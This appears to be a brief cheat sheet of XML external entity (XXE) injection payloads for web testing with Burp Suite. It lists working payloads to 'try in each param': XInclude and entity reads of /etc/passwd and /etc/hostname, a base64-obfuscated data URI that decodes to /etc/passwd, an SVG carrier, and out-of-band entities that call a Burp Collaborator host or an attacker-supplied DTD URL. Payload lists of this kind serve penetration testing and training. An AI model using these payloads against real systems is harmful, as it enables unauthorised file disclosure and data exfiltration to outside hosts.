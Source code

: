 XXE

burpsuite search:
<?xml
<!DOCTYPE
<!ENTITY

Try in each param
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> ]>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> %xxe; ]>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
